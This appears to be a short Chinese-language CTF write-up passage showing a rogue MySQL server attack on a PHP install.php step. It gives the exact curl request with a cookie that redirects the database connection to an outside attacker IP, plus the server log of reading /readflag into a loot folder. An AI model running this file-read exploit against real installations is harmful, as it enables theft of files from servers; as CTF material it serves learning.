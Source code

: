 修改 config.yaml 中需要读取的文件 为 /readflag 并启动

```sh
➜  /tmp vim config.yaml
➜  /tmp ./rogue_mysql_server
INFO[2025-04-18 10:53:19] Server started at [0.0.0.0:3306]
```

使用以下命令触发文件读取，注意数据库IP为公网地址的IP
```sh
➜  ~ curl 'http://127.0.0.1:2002/install.php?m=Install&a=step3&c=Install&' \
-H 'Cookie: foo_db_config=mysql://root:root@83.229.121.36:3306/test?1001=1;'

```

发送后，服务端就会得到对应的flag文件

```sh
➜  /tmp ./rogue_mysql_server
INFO[2025-04-18 10:59:34] Server started at [0.0.0.0:3306]
INFO[2025-04-18 10:59:37] New client from addr [171.219.210.82:17709] logged in with username [root], database [test], ID [1]
INFO[2025-04-18 10:59:37] Client from addr [171.219.210.82:17709], ID [1] try to query [SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO"]
INFO[2025-04-18 10:59:37] Now try to read file [/readflag] from addr [171.219.210.82:17709], ID [1]
INFO[2025-04-18 10:59:37] Read success, stored at [./loot/171.219.210.82/1744945177597_readflag]
INFO[2025-04-18 10:59:38] Client leaved, Addr [171.219.210.82:17709], ID [1]
^C
➜  /tmp cat ./loot/171.219.210.82/1744945177597_readflag
ctf{123456789}
➜  /tmp
```